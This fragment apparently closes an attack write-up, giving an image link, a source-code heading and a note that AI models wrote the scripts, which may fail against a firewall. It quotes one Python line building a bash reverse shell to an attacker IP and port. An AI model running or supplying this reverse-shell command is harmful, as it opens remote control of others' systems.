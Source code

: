 PS: All the scripts are achieved by Gemini 2.5 pro and CLaude 3.7. It may doesn't work well, because the webshell may be rejected by the firework and "bash_shell = f"bash -c 'bash -i >& /dev/tcp/{attacker_ip}/{attacker_port} 0>&1'" doesn't work
"
